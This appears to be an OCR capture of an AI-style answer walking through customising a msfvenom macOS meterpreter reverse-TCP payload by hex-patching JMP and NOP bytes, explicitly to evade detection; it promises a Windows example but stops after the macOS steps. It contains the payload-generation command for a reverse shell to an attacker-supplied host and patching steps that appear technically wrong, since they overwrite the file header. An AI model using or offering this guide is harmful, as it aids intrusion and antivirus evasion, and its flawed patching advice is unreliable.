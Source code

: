 This approach to creating customized msfvenom binary templates using binary patching and JMP instructions can help create more sophisticated payloads that might evade standard detection methods. Always conduct such activities ethically and legally.

Certainly! Below are examples for customizing **msfvenom** binaries on **macOS** and **Windows** using binary patching and JMP instructions.

### **1. macOS Example**

#### **Step 1: Generate the msfvenom Payload**

First, create a basic **macOS** payload:

```bash
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f macho -o shell.macho
```

#### **Step 2: Disassemble the Binary**

Use `objdump` or `otool` to disassemble the binary and inspect the code:

```bash
# Using otool
otool -tV shell.macho > shell.asm
```

#### **Step 3: Identify an Injection Point**

Find a suitable place in the disassembly where you can insert a JMP instruction. Let's say you want to jump over the first few bytes of the shellcode.

#### **Step 4: Patch the Binary**

You can manually insert a JMP instruction to skip the first 5 bytes of the shellcode.

1. **Hex Editor**: Use a hex editor (e.g., Hex Fiend) to open `shell.macho`.
2. **JMP Instruction**: 
   - A typical `JMP SHORT` instruction is `EB`, followed by the number of bytes to jump over. 
   - If you want to skip 5 bytes, you can insert `EB 05`.

   So, you might replace the first few bytes like this:
   
   - Original: `48 31 C0 ...`
   - Patched: `EB 05 90 90 90 ...` (JMP 5 bytes forward, then NOP sled)

3. **Save the Patched File**: Save the modified binary as `patched_shell.macho`.

#### **Step 5: Test the Patched Binary**

Run the binary on a test macOS system to ensure it behaves as expected:

```bash
./patched_shell.macho
```

You can also use a debugger like `lldb` to step through the execution:

```bash
lldb ./patched_shell.macho
```
